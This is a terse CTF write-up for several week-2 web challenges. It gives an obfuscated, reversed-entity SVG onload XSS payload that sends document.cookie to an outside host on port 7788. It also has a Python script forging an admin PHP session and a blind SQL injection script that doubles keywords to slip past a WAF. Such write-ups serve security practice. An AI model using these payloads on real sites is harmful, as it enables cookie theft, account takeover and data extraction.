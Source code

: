 ## week2

### Post to zuckonit

* svg/onload={HTML-ENTITIES}
* reverse the order due to the silly waf
```
>";b3x#&;56x#&;96x#&;b6x#&;f6x#&;f6x#&;36x#&;e2x#&;47x#&;e6x#&;56x#&;d6x#&;57x#&;36x#&;f6x#&;46x#&;b2x#&;22x#&;d3x#&;37x#&;f3x#&;f2x#&;03x#&;03x#&;03x#&;83x#&;a3x#&;23x#&;03x#&;23x#&;e2x#&;63x#&;43x#&;23x#&;e2x#&;73x#&;23x#&;e2x#&;03x#&;23x#&;13x#&;f2x#&;f2x#&;a3x#&;07x#&;47x#&;47x#&;86x#&;22x#&;d3x#&;66x#&;56x#&;27x#&;86x#&;e2x#&;e6x#&;f6x#&;96x#&;47x#&;16x#&;36x#&;f6x#&;c6x#&;e2x#&;77x#&;f6x#&;46x#&;e6x#&;96x#&;77x#&"=daolon/gvgvss<
"window.location.href="ip:7788/?s="+document.cookie;"
```
### LazyDogR4U

* extract override your session 
```python
cookies = {'PHPSESSID':'4a4dbd3ee7e8aedbefec37b4fb9d1742'}
url = 'http://44a2feda3b.lazy.r4u.top/'
r = requests.post(url+'lazy.php', cookies=cookies,data={'_SESSESSIONSION[username]':'admin'})
r = requests.get(url+'flag.php', cookies=cookies)
```

### 200OK!!

* double the payload to bypass the waf
```python
def solve():
    url = 'https://200ok.liki.link/server.php'
    res = ''
    for j in range(1, 50):
        print(j)
        for i in string.printable:
            headers = {
                'Status': ("0' and ascii(substr((seselectlect group_concat(ffffff14gggggg) frfromom f1111111144444444444g),"+str(j)+",1))="+str(ord(i))+" and '1'='1").replace(' ', '/**/')
            }
            r = requests.get(url, headers=headers)
            if '200 OK' in r.text:
                res += i
                print(res)
                break
```
### Liki的生日礼物

race condition

## week3

### Forgetful
